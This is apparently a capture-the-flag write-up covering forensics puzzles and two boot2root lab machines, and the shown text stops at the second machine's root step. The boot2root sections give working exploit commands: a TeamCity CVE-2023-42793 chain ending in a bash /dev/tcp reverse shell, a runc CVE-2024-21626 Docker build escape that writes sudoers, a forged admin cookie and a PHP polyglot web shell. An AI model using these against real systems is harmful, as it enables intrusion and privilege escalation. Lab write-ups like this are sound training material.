While examining `arkib_mohor.img`, I recovered `MOHOR.PNG`, but image viewers refused to open it.

I found several deliberate faults:

- a damaged signature or surrounding structure;
- an invalid IHDR CRC; and
- a false height of 380 pixels.

I reconstructed the IDAT stream and checked the scanline count, which showed that the real height was 620 pixels. I rebuilt the IHDR with that value and recalculated its CRC.

The repaired image showed:

```text
LAKSAMANA749
```

Therefore:

```text
A = LAKSAMANA749
```

#### Part B: recovering the deleted recording

The audio was missing from the normal directory listing, but I recovered its data from the image. Playing the WAV normally did not reveal anything useful.

I opened it as a spectrogram and found text drawn into the frequency spectrum:

```text
AYERLELEH23
```

Therefore:

```text
B = AYERLELEH23
```

#### Part C: finding the appended archive

I checked the repaired PNG for trailing data and found a ZIP archive after the `IEND` chunk. The instructions said that Part A was also the password, so I used:

Using:

```text
LAKSAMANA749
```

That password extracted the final component:

```text
MOHOR1699
```

Therefore:

```text
C = MOHOR1699
```

#### Building the flag

```text
A = LAKSAMANA749
B = AYERLELEH23
C = MOHOR1699
```

#### Flag

```text
3108{LAKSAMANA749_AYERLELEH23_MOHOR1699}
```

---

## 2. Risalah Istana Anak Bukit



### Challenge overview

I was given a large log file and a description about a palace circular that could not be opened. I started by filtering the normal server noise and looking for entries related to a document.

#### Finding the document

Most of `surat.log` was routine mail-server activity. Around line 1593, I found a URL inside a Sendmail relay field where a normal relay host should have been.

I followed the URL and downloaded:

```text
Risalah Istana Anak Bukit.docx
```

The log was only the first layer; it pointed to the actual document.

#### Decrypting the Office document

I identified the document encryption as Office 2007 Standard:

```text
Encryption: AES-128
Hash:       SHA-1
```

I extracted the Office hash and cracked the password:

```text
a6_123
```

After decrypting the DOCX, I unpacked it as OOXML and inspected the XML directly.

#### Decoding the glyph substitution

The text nodes in `word/document.xml` used symbols resembling the Standard Galactic Alphabet from Minecraft.

I replaced the glyphs with their Latin equivalents while preserving the surrounding XML and document relationships.

The decoded document ended with:

```text
flag{almarhum_sultan_abdul_halim_mu'adzam_shah}
```

I converted it to the event's `3108` format and uppercased the body.

#### Flag

```text
3108{ALMARHUM_SULTAN_ABDUL_HALIM_MU'ADZAM_SHAH}
```

---

## 3. Lagenda Sultan Kedah Tua




### Challenge overview

The challenge provided a packet capture named `Kedah_Tua.pcap` and described an Active Directory environment that had been compromised. The historical clue referred to the first Sultan of Kedah and *Hikayat Merong Mahawangsa*.

I treated the PCAP as forensic evidence and worked from a copy. My goal was to identify the hosts, reconstruct the intrusion timeline and follow any downloaded payloads until I found the flag.

The complete chain recovered from the traffic was:

```text
network reconnaissance
  -> password attack against s.sulaimanshah
  -> LDAP domain enumeration
  -> discovery of s.muzaffarshah
  -> AS-REP roasting
  -> privileged WinRM session
  -> download update.ps1
  -> download script.bat from GitHub
  -> reversed flag written as a registry token
  -> retrieve mimikatz.exe over SMB
```

#### Initial PCAP triage

I began by confirming the capture format and obtaining a high-level view of the traffic:

```bash
capinfos Kedah_Tua.pcap
tshark -r Kedah_Tua.pcap -q -z endpoints,ip
tshark -r Kedah_Tua.pcap -q -z conv,tcp
```

Two internal hosts immediately stood out:

```text
192.168.99.99  attacker
192.168.99.10  KEDAH-DC, the domain controller
```

The Active Directory domain was:

```text
kedah.tua
```

I used the following Wireshark display filter to focus on the authentication and post-exploitation traffic:

```text
ip.addr == 192.168.99.99 &&
(kerberos || ldap || ntlmssp || smb2 || http || tcp.port == 5985)
```

The early packets showed scanning and authentication attempts from `192.168.99.99`. One of the observed credentials was:

```text
s.sulaimanshah / P@ssw0rd
```

After that account authenticated, the attacker performed LDAP queries against the domain controller.

#### Following the LDAP enumeration

The LDAP results exposed another account whose name matched the historical clue:

```text
CN:             Sultan Muzaffar Shah
sAMAccountName: s.muzaffarshah
OU:             Sultan
memberOf:       Administrators
```

Its `userAccountControl` value was:

```text
4260352 = 0x410200
```

The important bit was `0x400000`, or `DONT_REQ_PREAUTH`. This setting allowed anyone to request an encrypted Kerberos AS-REP response for the account without first knowing its password. The response could then be taken offline for an AS-REP-roasting password attack.

The name was also a deliberate historical reference. Sultan Muzaffar Shah I, associated in the legend with Raja Phra Ong Mahawangsa, was the first Sultan of Kedah. This confirmed that `s.muzaffarshah` was the account I needed to follow.

Shortly after the Kerberos exchange, the capture showed a successful NTLM-authenticated WinRM connection to TCP port `5985` as `s.muzaffarshah`. Since the account belonged to `Administrators`, the attacker had obtained a privileged remote shell on the domain controller.

#### Recovering the PowerShell stage

After the WinRM activity, `KEDAH-DC` made an unencrypted HTTP request to an external address:

```http
GET /update.ps1 HTTP/1.1
Host: 100.65.0.212
```

I isolated it with:

```text
http.request.method == "GET" && http.request.uri == "/update.ps1"
```

Because the transfer used plain HTTP, I could recover the response through **File → Export Objects → HTTP** in Wireshark. The same extraction can be performed from the command line:

```bash
mkdir -p http-objects
tshark -r Kedah_Tua.pcap \
  --export-objects http,http-objects
```

The recovered `update.ps1` contained an encoded command. Decoding it revealed the actual second-stage action:

```powershell
iwr https://raw.githubusercontent.com/f4rshad0w/checkup-script/refs/heads/main/script.bat -OutFile $env:TEMP\WindowsUpdate.bat; Start-Process cmd -Args "/c $env:TEMP\WindowsUpdate.bat"
```

Despite the harmless-looking `WindowsUpdate.bat` name, the script came from a public GitHub repository rather than Microsoft. That made it the most useful artifact in the capture.

#### Finding the reversed token

I downloaded the exact second-stage file referenced by the PowerShell command:

```bash
curl -sS \
  'https://raw.githubusercontent.com/f4rshad0w/checkup-script/refs/heads/main/script.bat' \
  -o script.bat

sed -n '1,120p' script.bat
```

The batch file performed some ordinary system checks, but it also contained these suspicious lines:

```bat
reg add "HKCU\Software\SysDiag\Session" /v Token /t REG_SZ /d "}asgn4wah4m_gn0r3m_tayak1h{8013" /f

set flag=%USERPROFILE%\Desktop\flag.txt
if exist "%flag%" (type "%flag%") else (echo no flag.txt on desktop)
```

The registry token looked like a flag written backwards. I reversed it directly:

```bash
printf %s '}asgn4wah4m_gn0r3m_tayak1h{8013' | rev
```

Output:

```text
3108{h1kayat_m3r0ng_m4haw4ngsa}
```

I also checked the repository history to ensure the token existed at the time represented by the PCAP and had not been added later. The batch file predated the captured traffic, so it was a valid part of the challenge evidence.

#### Confirming the post-exploitation activity

The traffic continued after the staged download. The domain controller connected back to the attacker-controlled SMB share:

```text
\\192.168.99.99\share
```

The requested file was:

```text
mimikatz.exe
```

This final step confirmed that the traffic represented a real compromise chain: the attacker gained a privileged shell, staged a script and then retrieved a credential-dumping tool. It was not normal administrative activity or an isolated failed login.

#### Flag

```text
3108{h1kayat_m3r0ng_m4haw4ngsa}
```

---

## 4. Layar Yang Menanti



### Challenge overview

This challenge provided Windows forensic artifacts from a workstation where several users had been active. The useful evidence was not a normal screenshot. Instead, it was stored in the persistent bitmap cache created by the Windows Remote Desktop client.

RDP saves small pieces of the remote screen so it can reuse them without transmitting the same pixels again. Those cached pieces can survive after the session ends, but they do not retain their original screen coordinates. The challenge was therefore a jigsaw puzzle made from thousands of small screen fragments.

My solve path was:

```text
identify the relevant user and session
  -> locate Cache0000.bin and Cache0001.bin
  -> extract 64x64 RDP bitmap tiles
  -> compare the edges of every tile
  -> rebuild matching image fragments
  -> read the flag from the reconstructed screen
```

#### Identifying the relevant user

I first correlated the supplied notes with the timestamps in the workstation artifacts. The entry that mattered was associated with:

```text
User:        zulkifli.hamid
Workstation: WARISAN-WS12
Time:        23:51
```

This gave me a specific user profile and time window instead of making me inspect every cache blindly. Inside that profile, the Remote Desktop cache contained:

```text
Cache0000.bin
Cache0001.bin
```

The important point was that the notes only identified which session to investigate. They did not contain the flag themselves.

#### Recognizing the RDP bitmap cache

I checked the beginning of both files:

```bash
xxd -g 1 -l 32 Cache0000.bin
xxd -g 1 -l 32 Cache0001.bin
```

They began with the following signature:

```text
RDP8bmp\x00
```

That identified the newer persistent RDP bitmap-cache format. The entries contained `64 x 64` pixel tiles stored as 32-bit BGRA data. Windows used these tiles to draw portions of the remote desktop during the session.

#### Extracting the tiles with BMC-Tools

I used [ANSSI-FR's BMC-Tools](https://github.com/ANSSI-FR/bmc-tools), which supports both `Cache????.bin` and older `bcache*.bmc` formats:

```bash
git clone https://github.com/ANSSI-FR/bmc-tools.git
mkdir -p cache-input extracted-tiles

cp Cache0000.bin Cache0001.bin cache-input/
python3 bmc-tools/bmc-tools.py \
  -s cache-input \
  -d extracted-tiles \
  -b
```

The `-b` option also created aggregate bitmap sheets, which were useful for quickly reviewing the extracted content. However, a simple collage preserved cache order rather than screen position, so the text was still broken across unrelated parts of the image.

#### Matching tile edges

I compared the boundary pixels of each tile to estimate which ones had originally been next to each other. For a horizontal match, the right edge of candidate tile `A` had to resemble the left edge of candidate tile `B`. For a vertical match, the bottom edge of `A` had to resemble the top edge of `B`.

I ignored the alpha channel and used the mean absolute RGB difference as the cost. Lower values indicated a better match:

```python
import numpy as np
from PIL import Image

def load_tile(path):
    return np.asarray(Image.open(path).convert("RGBA"), dtype=np.int16)

def horizontal_cost(left, right):
    return np.abs(
        left[:, -1, :3] - right[:, 0, :3]
    ).mean()

def vertical_cost(top, bottom):
    return np.abs(
        top[-1, :, :3] - bottom[0, :, :3]
    ).mean()
```

I calculated these scores between the extracted tiles, kept the strongest candidates and joined the most convincing sequences into larger fragments. Text, window borders and flat background regions produced particularly useful continuity across tile boundaries.

My first reconstruction produced nonsense even though many edge scores looked good. The mistake was pleasantly small and deeply annoying: I had reversed the horizontal comparison and was matching the left edge of `A` against the right edge of `B`.

The incorrect comparison was effectively:

```python
# Wrong direction
cost = np.abs(a[:, 0, :3] - b[:, -1, :3]).mean()
```

I corrected it to compare `A.right` with `B.left`:

```python
# A is on the left, B is on the right
cost = np.abs(a[:, -1, :3] - b[:, 0, :3]).mean()
```

After rebuilding the fragments with the corrected direction, recognizable lines of text began to appear. I reviewed the best-connected clusters rather than forcing every cached tile into one giant image, since many tiles belonged to unrelated windows or earlier screen states.

#### Recovering the screen text

One reconstructed fragment showed the flag clearly across the recovered RDP screen:

```text
3108{Payung_Mahkota_Dirgahayu_Raja_Melayu}
```

I checked the neighboring tiles to ensure the braces, capitalization and underscores were genuine screen pixels rather than a mistaken join. The complete string remained consistent across the reconstructed fragment.

#### Flag

```text
3108{Payung_Mahkota_Dirgahayu_Raja_Melayu}
```

---

---

# BOOT2ROOT

---

## 1. Warisan Takhta



### Challenge overview

The intended route started at a vulnerable TeamCity server and ended with a container escape through Portainer's Docker build API. From there, the final flag had to be recovered from a deleted image in Git history.

I did not boot the original OVA during my analysis. I reconstructed this live route from the disk, configuration, password hashes, logs and container metadata. The commands below use these example lab addresses so the path is easy to follow:

```text
Target: 192.168.56.110
Kali:   192.168.56.1
```

The complete chain was:

```text
TeamCity 2023.05.3
  -> CVE-2023-42793 unauthenticated RCE
  -> recover an SSH key and TeamCity password hash
  -> crack the pentadbir password
  -> SSH as bahtera
  -> reuse pentadbir's password on Portainer
  -> access the Docker build API
  -> exploit runc 1.1.11 with CVE-2024-21626
  -> write a sudoers entry on the host
  -> become root
  -> recover a deleted image from Git history
```

#### Step 1: enumerate the target

I began with host discovery and a full TCP scan.

**Kali WSL**

```bash
sudo arp-scan --localnet
nmap -Pn -p- --min-rate 2000 192.168.56.110
nmap -Pn -sC -sV -p22,80 192.168.56.110
```

Only SSH and HTTP were exposed. Port 80 redirected me to `istana.bahtera`, so I added the hostname locally:

```bash
echo '192.168.56.110 istana.bahtera' | sudo tee -a /etc/hosts
```

The main site did not immediately reveal a foothold. After spending a few minutes checking headers, links and common paths, I moved on to virtual-host enumeration:

```bash
ffuf -u http://192.168.56.110/ \
  -H 'Host: FUZZ.istana.bahtera' \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt \
  -ac
```

That uncovered `teamcity.istana.bahtera`. I added it to `/etc/hosts` and opened the site:

```bash
echo '192.168.56.110 teamcity.istana.bahtera' | sudo tee -a /etc/hosts
```

```text
http://teamcity.istana.bahtera/
```

The footer identified the server as TeamCity 2023.05.3 build 129390. This release predates the 2023.05.4 security fix and is vulnerable to CVE-2023-42793.

#### Step 2: exploit TeamCity

CVE-2023-42793 allowed me to create an administrator token without authentication. I then used that token to enable TeamCity's debug-process endpoint and execute a command.

The quickest route was the Metasploit module:

```text
msfconsole
use exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793
set RHOSTS 192.168.56.110
set RPORT 80
set VHOST teamcity.istana.bahtera
set TARGET 1
set PAYLOAD cmd/unix/reverse_bash
set LHOST 192.168.56.1
run
```

The same attack can be reproduced manually. I first started a listener:

```bash
rlwrap nc -lvnp 4444
```

In another terminal, I created a fresh token for the administrator account:

```bash
TC='http://teamcity.istana.bahtera'

curl -sS -X DELETE \
  "$TC/app/rest/users/id:1/tokens/RPC2" >/dev/null

TOKEN_XML=$(curl -sS -X POST \
  "$TC/app/rest/users/id:1/tokens/RPC2")

TOKEN=$(printf '%s' "$TOKEN_XML" | \
  xmllint --xpath 'string(/token/@value)' -)

echo "$TOKEN"
```

Next, I enabled the internal process-debugging feature:

```bash
curl -sS -o /dev/null -X POST -G \
  -H "Authorization: Bearer $TOKEN" \
  --data-urlencode 'action=edit' \
  --data-urlencode 'fileName=config/internal.properties' \
  --data-urlencode 'content=rest.debug.processes.enable=true' \
  "$TC/admin/dataDir.html"
```

After waiting briefly for TeamCity to reload the property, I triggered a reverse shell:

```bash
KALI_IP='192.168.56.1'

curl -sS -o /dev/null -X POST -G \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: text/plain' \
  --data-urlencode 'exePath=/bin/sh' \
  --data-urlencode 'params=-c' \
  --data-urlencode \
  "params=bash -c 'bash -i >& /dev/tcp/$KALI_IP/4444 0>&1' &" \
  "$TC/app/rest/debug/processes"
```

This route provides a shell as `tcuser` inside the TeamCity container.

#### Step 3: recover the SSH key and password

Once inside the container, I searched the TeamCity data directory for credentials, project secrets and SSH material. After checking the project configuration for a few minutes, I found a private key under the root project's plugin data and the embedded TeamCity database under `system`:

```bash
KEY=/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/istana_rsa
DB=/data/teamcity_server/datadir/system/buildserver.script

base64 -w0 "$KEY"
echo
grep 'INSERT INTO USERS' "$DB"
```

I copied the Base64 output to Kali, decoded it and checked the fingerprint:

```bash
printf '%s' '<BASE64_OUTPUT>' | base64 -d > istana_rsa
chmod 600 istana_rsa
ssh-keygen -lf istana_rsa
```

Expected fingerprint:

```text
SHA256:4TQ9DxjxoHpBcMlau+Gh2acAdWTO/7JU3Fguf0fOkGg
```

The database entry for `pentadbir` contained a bcrypt hash. I saved it and ran it against `rockyou.txt`:

```bash
printf '%s\n' '<TEAMCITY_BCRYPT_HASH>' > teamcity.hash
hashcat -m 3200 teamcity.hash /usr/share/wordlists/rockyou.txt
```

After a short cracking run, I recovered:

```text
pentadbir:piper123
```

The same password also matched the Portainer bcrypt hash found in the appliance data.

#### Step 4: obtain the user flag

The private key belonged to the `bahtera` account, so I used it for SSH:

```bash
ssh -i istana_rsa bahtera@192.168.56.110
```

From the shell, I checked my identity and read the user flag:

```bash
id
cat ~/user.txt
```

```text
3108{c87b3530ac50e65f6498a305160592c7}
```

While checking the machine's host mappings, I noticed another internal hostname:

```bash
cat /etc/hosts
```

```text
pentadbiran-diraja.istana.bahtera
```

I added it on Kali:

```bash
echo '192.168.56.110 pentadbiran-diraja.istana.bahtera' | \
  sudo tee -a /etc/hosts
```

#### Step 5: access Portainer

The new hostname opened a Portainer instance:

```text
http://pentadbiran-diraja.istana.bahtera/
```

I tried the TeamCity credentials and managed to log in as `pentadbir` with `piper123`. To work with the API directly, I requested a JWT:

```bash
PORTAINER='http://pentadbiran-diraja.istana.bahtera'

JWT=$(curl -sS -X POST \
  -H 'Content-Type: application/json' \
  -d '{"Username":"pentadbir","Password":"piper123"}' \
  "$PORTAINER/api/auth" | jq -r .jwt)

echo "$JWT"
```

I queried the connected Docker engine and found the versions that mattered:

```bash
curl -sS \
  -H "Authorization: Bearer $JWT" \
  "$PORTAINER/api/endpoints/1/docker/version" | jq
```

```text
Docker Engine 24.0.8
runc 1.1.11
```

Direct container creation, execution and volume operations were blocked by a Docker socket proxy. After testing the available endpoints, I found that `POST` requests to the build API were still permitted. The installed runc 1.1.11 was also vulnerable to CVE-2024-21626, which was fixed in 1.1.12.

The escape abuses a malicious `WORKDIR /proc/self/fd/<fd>` instruction. If the descriptor points into the host mount namespace, the build process can walk back to the host filesystem.

#### Step 6: find the vulnerable descriptor

The descriptor number can change, so I probed descriptors 4 through 20 instead of assuming a fixed value:

```bash
mkdir -p escape-context

for fd in $(seq 4 20); do
  cat > escape-context/Dockerfile <<EOF
FROM ubuntu:22.04
WORKDIR /proc/self/fd/$fd/
RUN cd ../../../../ && test -f root/root.txt && cat root/root.txt
EOF

  tar -C escape-context -cf escape-context.tar Dockerfile

  echo "[*] Testing fd $fd"

  curl -sS -X POST \
    -H "Authorization: Bearer $JWT" \
    -H 'Content-Type: application/x-tar' \
    --data-binary @escape-context.tar \
    "$PORTAINER/api/endpoints/1/docker/build?t=probe$fd&nocache=1&rm=1&version=1" | \
    tee "build-$fd.log"

  if grep -q '3108{' "build-$fd.log"; then
    GOOD_FD="$fd"
    echo "[+] Vulnerable descriptor: $GOOD_FD"
    break
  fi
done
```

After several failed builds, descriptor 7 reached the host filesystem. A successful attempt may also print a `getcwd() failed` message before exposing host files.

#### Step 7: escape the build and become root

With the working descriptor identified, I changed the Dockerfile so the build wrote a sudoers rule onto the host:

```bash
cat > escape-context/Dockerfile <<EOF
FROM ubuntu:22.04
WORKDIR /proc/self/fd/$GOOD_FD/
RUN cd ../../../../ && \
    printf 'bahtera ALL=(ALL:ALL) NOPASSWD: ALL\n' > etc/sudoers.d/bahtera && \
    chmod 0440 etc/sudoers.d/bahtera && \
    cat root/root.txt
EOF

tar -C escape-context -cf escape-context.tar Dockerfile

curl -sS -X POST \
  -H "Authorization: Bearer $JWT" \
  -H 'Content-Type: application/x-tar' \
  --data-binary @escape-context.tar \
  "$PORTAINER/api/endpoints/1/docker/build?t=root-stage&nocache=1&rm=1&version=1" | \
  tee root-build.log
```

Back in the SSH session, the new rule allowed passwordless sudo:

```bash
sudo -n id
sudo -n -i
```

```text
uid=0(root) gid=0(root)
```

I then read the root flag:

```bash
cat /root/root.txt
```

```text
3108{fa857de946c9dc988a22e7c9780e43c1}
```

#### Step 8: recover the deleted image

The last objective was not stored in another flag file. After searching through `/opt`, I found a Git repository at `/opt/istana/arkib-diraja` and inspected its history:

```bash
cd /opt/istana/arkib-diraja
git log --all --oneline --stat
```

Relevant commits:

```text
8b611f4 Buang imbasan rosak selepas migrasi
f32a1e8 Import imbasan arkib lama
33472ea Permulaan migrasi arkib digital
```

One commit referenced a deleted image named `warkah_lama.png`. I restored it from the earlier revision:

```bash
git show f32a1e8:warkah_lama.png > /tmp/warkah_lama.png
chmod 644 /tmp/warkah_lama.png
```

I copied it back to Kali and opened it:

```bash
scp -i istana_rsa \
  bahtera@192.168.56.110:/tmp/warkah_lama.png .

xdg-open warkah_lama.png
```

The third flag was printed on the letter:

```text
3108{d41d8cd98f00b204e9800998ecf8427e}
```

#### Flags

User:

```text
3108{c87b3530ac50e65f6498a305160592c7}
```

Root:

```text
3108{fa857de946c9dc988a22e7c9780e43c1}
```

Post:

```text
3108{d41d8cd98f00b204e9800998ecf8427e}
```

---

## 2. Warta Kelate



### Challenge overview

I started with a custom e-Warta application and eventually chained an exposed Git repository, a forgeable authentication cookie, an upload bypass, leaked maintenance credentials and an unsafe Linux capability.

For this walkthrough, I used `192.168.56.120` as the lab machine's address.

The complete path was:

```text
Exposed /.git
  -> recover the HMAC key
  -> forge an administrator cookie
  -> upload a GIF/PHP polyglot as .pht
  -> execute commands as www-data
  -> read maintenance credentials
  -> SSH as nik
  -> abuse a CAP_SETUID Python binary
  -> root
```

#### Step 1: recover the exposed Git repository

I started by browsing the application and checking the usual exposed files and directories. After a few minutes of testing common paths, `/.git/HEAD` returned Git metadata instead of a 404. I then reconstructed the repository with `git-dumper`.

**Kali WSL  temporary analysis directory**

```bash
TARGET=192.168.56.120

mkdir -p /tmp/darul-exploit
cd /tmp/darul-exploit

git-dumper "http://$TARGET/.git/" source
git -C source log --oneline
sed -n '1,160p' source/warta/auth.php
```

After checking the recovered commits and source tree, I found the authentication code in `warta/auth.php`. The repository history exposed its hard-coded HMAC key:

```text
kelate-warta-2010::hmac-key::jange-bagi-oghe
```

#### Step 2: forge an administrator cookie

I spent some time tracing how `auth.php` created and verified sessions. The cookie used this structure:

```text
user|role|HMAC-SHA256(user|role, key)
```

The server Base64-decoded the value and trusted the HMAC. Since I had the signing key, I could forge an `admin|admin` token.

I generated it with:

```python
import base64
import hashlib
import hmac

key = b"kelate-warta-2010::hmac-key::jange-bagi-oghe"
identity = b"admin|admin"
signature = hmac.new(key, identity, hashlib.sha256).hexdigest().encode()
cookie = base64.b64encode(identity + b"|" + signature).decode()
print(cookie)
```

This produced:

```text
YWRtaW58YWRtaW58ZGE5MjE4MWM0ODVmY2E3MTNkM2M4ZThkM2I0YWUyMDdiMTY0YWNhMzQzNTMzMDIwOTAwZjJkYzYyMTgxYTRmNg==
```

I set the cookie and confirmed access to the dashboard:

```bash
COOKIE='YWRtaW58YWRtaW58ZGE5MjE4MWM0ODVmY2E3MTNkM2M4ZThkM2I0YWUyMDdiMTY0YWNhMzQzNTMzMDIwOTAwZjJkYzYyMTgxYTRmNg=='

curl -s \
  -b "warta_auth=$COOKIE" \
  "http://$TARGET/warta/dashboard.php"
```

HMAC-SHA256 was not broken; the key had simply been committed to an exposed repository.

#### Step 3: bypass the upload restrictions

The administrator dashboard had a document upload function. My first attempts with normal PHP extensions were rejected. After comparing the application validation with the nginx and PHP-FPM configuration, I found a mismatch between four controls:

- the PHP extension blacklist rejected `.php`, `.phtml` and several similar extensions, but omitted `.pht`;
- nginx treated filenames matching `\.ph(p|t|tml)$` as executable PHP, which includes `.pht`;
- PHP-FPM was configured to permit `.pht`; and
- `getimagesize()` checked whether the beginning of the upload resembled an image, but did not prove that the rest of the file was harmless.

Because the controls disagreed, I could make a file that looked like a GIF to `getimagesize()` but was still executed as PHP.

I created the polyglot:

```bash
printf '%s' \
  'R0lGODlhOyA8P3BocCBzeXN0ZW0oJF9HRVRbImNtZCJdKTsgPz4=' | \
  base64 -d > /tmp/darul-exploit/shell.pht
```

I uploaded it with the forged cookie:

```bash
curl -s \
  -b "warta_auth=$COOKIE" \
  -F 'warta=@/tmp/darul-exploit/shell.pht;filename=shell.pht' \
  "http://$TARGET/warta/upload.php"
```

Then I verified command execution:

```bash
curl -sG \
  --data-urlencode 'cmd=id' \
  "http://$TARGET/warta/uploads/shell.pht"
```

The command ran as `www-data`.

#### Step 4: recover the maintenance credentials

Once I had command execution, I looked through the web root for configuration files and credentials. After checking the application files, I found that `config.php` was owned by `root:www-data` with mode `0640`, which meant my `www-data` shell could read it.

```bash
curl -sG \
  --data-urlencode 'cmd=cat /var/www/html/warta/config.php' \
  "http://$TARGET/warta/uploads/shell.pht"
```

The file contained the maintenance account:

```text
Username: nik
Password: N!kW4rt4_D4rulN41m
```

I used those credentials to log in over SSH:

```bash
ssh nik@"$TARGET"
```

Then I read the user flag:

```bash
cat /home/nik/user.txt
```

```text
3108{47a155cafb53ee9aacdf700486356077}
```

This was the **Warta Kelate (`user.txt`)** objective.

#### Step 5: enumerate the privilege-escalation path

From the `nik` shell, I checked sudo permissions, SUID files, Linux capabilities and unusual programs under `/usr/local/bin`. Most of the results were dead ends, but the capability search eventually pointed me to the custom audit executable:

```bash
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
```

I inspected the suspicious file more closely:

```bash
ls -l /usr/local/bin/warta-audit
getcap /usr/local/bin/warta-audit
file /usr/local/bin/warta-audit
```

The useful properties were:

```text
Owner/group: root:nik
Capability:  cap_setuid=ep
Program:     Python 3.10 interpreter
```

`warta-audit` was really a Python interpreter executable by group `nik`. Its effective `CAP_SETUID` capability allowed the process to change UID without `sudo`.

#### Step 6: obtain root

